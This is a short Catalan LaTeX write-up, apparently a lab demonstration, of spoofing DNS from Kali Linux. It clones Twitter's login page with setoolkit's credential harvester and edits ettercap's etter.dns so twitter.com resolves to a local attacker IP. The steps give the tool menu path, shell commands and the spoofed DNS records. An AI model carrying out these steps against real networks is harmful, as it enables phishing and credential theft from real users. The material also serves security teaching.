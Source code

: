 \documentclass[]{article}
\begin{document}
Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i
com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina
anomenada ``setoolkit'' i fer un clonatge de la pàgina de Twitter.

Posteriorment suplantar el registre DNS en la que apuntava a twitter.com
a la nostra màquina, on hi tenim un allotjat una pàgina fraudulenta
utilitzant l'eina.

\emph{Website Attack Vectors -\textgreater{} Creditials Harvestor
-\textgreater{} Clone website / Use Web Template}

Utilitzarem un ``toolkit'' anomenat ``setooklit'' que es permetrà fer
phishing a una pàgina i fer un clonatge perfecte.

\texttt{[image: ./tex2pdf.-d65a4b08bd75da3f/30c24d2469ccc294b42630c6115feaeac6b7f5f9.png]}

Podem fer un clonatge d'una pàgina web o també té ``templates'' pre
definides. En aquest exemple utilitzarem el template de
https://www.twitter.com

Tarda una estona.

\texttt{[image: ./tex2pdf.-d65a4b08bd75da3f/44bccdec6ac0bd4dd15cfeb35c4ef1620f40c6c4.png]}

\texttt{[image: ./tex2pdf.-d65a4b08bd75da3f/53a2dc3d1e97079d48a914c5d363d4ed4b37761a.png]}

Com podem observar la pàgina de Twitter està a la nostra IP
10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la
meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com
apunto a la nostra IP.

\texttt{apt-get\ install\ mlocate}

\texttt{updatedb}

\texttt{locate\ etter.dns}

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# locate etter.dns
/etc/ettercap/etter.dns /usr/share/ettercap/etter.dns.examples

\texttt{cp\ /etc/ettercap/etter.dns\ /etc/ettercap/etter.dns.original}

\texttt{vi\ /etc/ettercap/etter.dns}

\begin{verbatim}
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
\end{verbatim}
\end{document}
